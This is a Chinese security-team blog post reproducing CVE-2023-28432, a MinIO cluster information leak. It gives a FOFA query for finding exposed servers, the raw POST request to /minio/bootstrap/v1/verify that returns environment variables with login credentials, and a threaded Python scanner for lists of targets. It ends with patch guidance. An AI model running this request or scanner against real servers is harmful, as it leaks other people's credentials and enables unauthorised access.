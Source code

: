 #  CVE-2023-28432 MinIO集群模式信息泄露漏洞复现

原创 RCS-TEAM安全团队  [ 小白嘿课 ](javascript:void\(0\);)

**小白嘿课** ![]()

微信号 RCS-TEAM

功能介绍
专注于渗透测试、代码审计、安全开发、安全运维、风险评估、人工智能安全等领域。分享安全知识，提供安全服务，安全招聘，HW、等保、C/C++、数据结构、汇编、安全架构、PC逆向、APP逆向、WAF绕过等。

____

___发表于_

收录于合集

**0x00 团队声明**  

 **该漏洞为我团队漏洞监测平台发现，仅供学习参考使用，请勿用作违法用途，否则后果自负。**  

 **0x01  漏洞概述**

 **漏洞编号： CVE-2023-28432 CNNVD-202303-1795**

MinIO是美国MinIO公司的一款开源的对象存储服务器， 是一款高性能、分布式的对象存储系统. 它是一款软件产品,
可以100%的运行在标准硬件。即X86等低成本机器也能够很好的运行MinIO。MinIO中存在一处信息泄露漏洞，由于Minio集群进行信息交换的9000端口，在未经配置的情况下通过发送特殊HPPT请求进行未授权访问，进而导致MinIO对象存储的相关环境变量泄露，环境变量中包含密钥信息。泄露的信息中包含登录账号密码。

MinIO 存在信息泄露漏洞，该漏洞源于在集群部署中MinIO会返回所有环境变量，导致信息泄露。

 **0x02  影响版本**

2019-12-17T23-16-33Z <= MinIO < RELEASE.2023-03-20T20-16-18Z

 **0x03  漏洞复现**

 **方式一:可以通过FOFA进行搜索，搜索的语法格式如下:  
**

 **title="MinIO Browser"**

![]()

![]()

 **方式二:可以通过Docker容器或Podman等容器复现环境。**

![]()

漏洞存在于API节点 **http://your-ip:9000/minio/bootstrap/v1/verify** 上，通过BP抓包分析。

![]()

构造Payload  

POST /minio/bootstrap/v1/verify HTTP/1.1Host: 192.168.126.128:9000Accept-
Encoding: gzip, deflateAccept: */*Accept-Language: en-US;q=0.9,en;q=0.8User-
Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/110.0.5481.178 Safari/537.36Connection: closeCache-Control:
max-age=0Content-Type: application/x-www-form-urlencodedContent-Length: 0

![]()

利用泄露的用户名和密码登录系统。

  

![]()

![]()

 **0x04  漏洞检测**

 **基于Python实现的漏洞检测工具  
**

![]()

![]()

 ** **源代码****

# -*- coding: utf-8 -*-from urllib.parse import urlsplitimport argparseimport
requestsimport sysimport reimport threadingfrom requests.exceptions import
RequestExceptionfrom urllib3.exceptions import InsecureRequestWarning  
# 自定义请求头字段headers = {    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64;
x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110
Safari/537.36",    "Accept":
"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
"Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7",    "Content-Type":
"application/x-www-form-urlencoded"}  
data = {    }  
vulurl=[]  
#url合规检测执行def urltest(url):    parsed_url = urlsplit(url)    if
parsed_url.port == "443" and parsed_url.netloc:
url="https://"+parsed_url.netloc+"/minio/bootstrap/v1/verify"
vultest(url)     if parsed_url.netloc and parsed_url.path:
url=parsed_url.scheme+"://"+parsed_url.netloc+"/minio/bootstrap/v1/verify"
vultest(url)    elif parsed_url.netloc:
url=url+"/minio/bootstrap/v1/verify"        vultest(url)    elif (not
parsed_url.scheme) and parsed_url.path:
url_1="http://"+url+"/minio/bootstrap/v1/verify"        vultest(url_1)
url_2="https://"+url+"/minio/bootstrap/v1/verify"        vultest(url_2)
else:        modified_string = re.sub(r"[/\\\\].*",
"/minio/bootstrap/v1/verify", url)        url_1="http://"+modified_string
vultest(url_1)        url_2="https://"+modified_string        vultest(url_2)  
#漏洞检测def vultest(url):    try:        response = requests.post(url, data=data,
headers=headers, verify=False , timeout=3)        parsed_url = urlsplit(url)
url=parsed_url.scheme+"://"+parsed_url.netloc        # 检查响应头的状态码是否为200
if response.status_code == 200 and ("MinioEnv" in response.text):
vulurl.append(url)            print(url+"  [+]漏洞存在！！！")         else:
print(url+"  [-]漏洞不存在。")    except RequestException:        parsed_url =
urlsplit(url)        url=parsed_url.scheme+"://"+parsed_url.netloc
print(url+"  [-]请求失败。")  
  
#读取url或filedef main():    # 禁用警告
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
parser = argparse.ArgumentParser(description="读取命令行参数")    group =
parser.add_mutually_exclusive_group(required=True)    group.add_argument('-u',
'--url', help='URL 参数')    group.add_argument('-f', '--file', help='file 参数')
args = parser.parse_args()    if args.url:        urltest(args.url)    elif
args.file:        threads_queue=[]        with open(args.file, 'r') as file:
for line in file:                line=line.strip()                read_thread
= threading.Thread(target=urltest, args=(line,))
threads_queue.append(read_thread)                read_thread.start()
for thread in threads_queue:                thread.join()  
    print("\n存在漏洞列表：")    for url in vulurl:        print(url+"  [+]漏洞存在！！！")  
if __name__ == "__main__":    main()

 ** **  
****

 ** **0x05  整改意见****

升级补丁以修复漏洞，补丁获取链接：  

https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q

 **~关注我们~**

 ** **~推荐书籍~****

![]()

 **~扫码购书~**

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

